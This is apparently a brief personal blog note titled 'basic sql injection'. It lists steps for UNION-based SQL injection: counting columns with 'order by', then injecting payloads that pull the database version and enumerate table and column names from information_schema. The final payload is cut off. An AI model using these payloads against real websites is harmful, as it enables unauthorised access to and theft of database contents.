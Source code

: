 ```yaml
---
title: "basic sql injection"
date: 2012-10-04 17:18:44
tags: ["sql", "sql", "injection"]
---
```


<p>
{% highlight sql %}
SELECT user
FROM users 
WHERE user.name = 'jeffrey';
{% endhighlight %}


1. FIND NUMBER OF COLUMNS
	"order by" trick - test if you can order by a column number
2. NOW WE CAN DO A UNION (# OF COLUMNS MUST MATCH)
	' union select 1,2,3,version() -- -
3. NOW WE CAN GET TABLE, COLUMN, AND DATABASE INFO
	' union select 1,2,3,table_name from information_schema.tables where table_schema="x8250" -- -
  ' union select 1,2,3,column_name from information_schema.columns where table...
</p>
